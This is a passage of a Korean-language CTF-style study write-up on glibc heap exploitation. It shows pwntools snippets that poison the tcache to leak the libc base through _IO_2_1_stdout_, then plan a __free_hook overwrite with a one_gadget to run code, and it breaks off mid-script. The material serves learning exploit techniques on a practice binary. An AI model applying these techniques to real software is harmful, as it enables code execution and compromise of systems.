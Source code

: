 ```
allocate(0x30, _IO_2_1_stdout_lsb)
# 여기서 중요한게, 바로 아래에서 print_chunk를 할건데, stdout에 저장된(가리키는) _IO_2_1_stdout_을 변조하면 안됨
# 하지만 libc base를 몰라서 IO_stdout을 모르지만, 다행히 하위 3비트는 오프셋으로 고정되어 있어서 하위 1바이트인 lsb도 고정되있어서 lsb를 대입해주면 됨(리틀엔디언 잘 생각)


print_chunk()  # stdout에 저장된 IO_2_1_stdout_lsb 주소 출력
p.recvuntil(b'Content: ')  # print_chunk에서 'Content: '는 안받아줬기 때문에 여기까지 받아줘야 libc_base를 제대로 계산 가능

# Leak libc base
libc_base = u64(p.recvn(6).ljust(8, b'\x00')) - libc.symbols['_IO_2_1_stdout_']
```

### 참고 (더 공부해서 보완)

`free list`의 청크들 끼리 연결 리스트로 연결할 때, 서로 다른 주소의 청크를 연결할 때는 gdb의 `heap` 명령어를 통해 출력되는 청크의 시작 주소대로 `fd`에 연결되지만, 

동일한 청크를 서로 연결할 때는 아래의 이미지와 같이 동일한 청크임에도 불구하고, `0x10`만큼 더해진 청크가 연결된다. 

![image](https://github.com/user-attachments/assets/d2af5302-c924-4780-9253-3b0b8f5e8bd0)

해당 이유를 명확히 밝혀내지는 못하였는데, 동일한 청크는 `header(metadata)` 때문에 밀려서 연결된다는 답이 있긴 하다.

그리고 `heap`의 `tcache`에서는 이렇게 주소가 차이나지만, 실제로 `malloc`을 연속 2번해서 보면 하나는 `+ 0x10`이 된 주소가 아니라, 당연히 똑같은 청크이기 때문에 똑같은 주소가 `malloc`을 통해 리턴된다.

## [2] Hook Overwrite

그럼 이제 **임의 주소 쓰기**를 통한 `Hook Overwrite`를 어떻게 할지 설계해보자.

당연히 이 과정도 `Tcache Poisoning`이 필요하기 때문에 Leak libc base에서 한 첫번째 과정대로 `duplicated free list(tcache)`를 만들어 준다.

**근데 여기서 매우 주의할 점이 위에서 `tcache[0x40]`의 연결 리스트를 오염시킨 결과로 `tcache`에 `_IO_2_1_stdout`이 존재하기 때문에 해당 연결 리스트에 다시 조작을 하면 표준 입출력 함수가 조작될 수 있기 때문에 새로운 크기의 `tcache[0x50]`으로 다시 시작해줘야 한다.**

그럼 이제 미리 `libc_base`를 통해 `__free_hook`과 `og`를 계산해주고, `__free_hook`의 값을 조작해야 하기 때문에 `allocate(0x40, p64(__free_hook))`으로 `__free_hook`을 `tcache[0x50]`에 추가해준다.

## 보완할 부분 (원가젯 조건 확인 추가)

![image](https://github.com/user-attachments/assets/1a86b142-d49e-453d-b3f1-c06cb5c87426)

그럼 이제 `tcache[0x50]`에는 처음에 `duplicated` 시킨 청크와 `next`로 `__free_hook` 청크가 연결되어 있기 때문에, 일단 처음에 중복시킨 청크는 더이상 쓸 일이 없기 때문에 아무 값으로나 `allocate`해서 빼주고,

이제 `__free_hook` 청크를 `allocate` 하며 빼주면서 `__free_hook`의 데이터에 `og`를 대입해주면 `__free_hook`이 `og`를 가리키게 될 것이다.

그럼 바로 `free`를 호출해서 훅을 통해 원가젯을 실행시키면 익스플로잇 성공이다.

```
free_hook = libc_base + libc.symbols['__free_hook']

# og = libc_base + 0x4f3ce
# og = libc_base + 0x4f3d5
og = libc_base + 0x4f432
# og = libc_base + 0x10a41c


# 여기서 tcache[0x40] 을 다시 쓰면 _IO_2_1_stdout_을 가져오는데 이 주소의 값을 바꾸면 안되므로 다른 tcache 엔트리르 써야함

# tcache[0x50] : empty
# chunk : first(1)
allocate(0x40, b'first')

```